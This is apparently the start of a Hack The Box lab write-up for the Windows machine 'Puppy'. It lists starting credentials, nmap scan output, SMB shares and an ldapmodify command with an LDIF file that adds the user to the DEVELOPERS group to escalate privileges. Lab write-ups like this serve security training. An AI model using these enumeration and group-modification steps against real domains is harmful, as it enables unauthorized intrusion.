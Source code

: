 # Puppy

## 📌 Box Info

- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)

creds

levi.james / KingofAkron2025!

53/tcp   open  domain        Simple DNS Plus
[88](Kerberos)/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-21 08:38:48Z)
[111]/tcp  open  [rpcbind](RPC)     2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100003  2,3         2049/udp   nfs
|   100005  1,2,3       2049/udp   mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100024  1           2049/tcp   status
|_100024  1           2049/udp   status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3260/tcp open  iscsi?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)


smbmap -H 10.10.11.70 -u levi.james -p KingofAkron2025!

IPC$
NETLOGON
SYSVOL


add.ldif
```
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
changetype: modify
add: member
member: CN=LEVI B. JAMES,OU=MANPOWER,DC=PUPPY,DC=HTB
```

```
ldapmodify -x -H ldap://10.10.11.70 -D "CN=LEVI B. JAMES,OU=MANPOWER,DC=puppy,DC=htb" -w 'KingofAkron2025!' -f add.ldif
```

```
net rpc group members "DEVELOPERS" -U "levi.james" -S 10.10.11.70
```
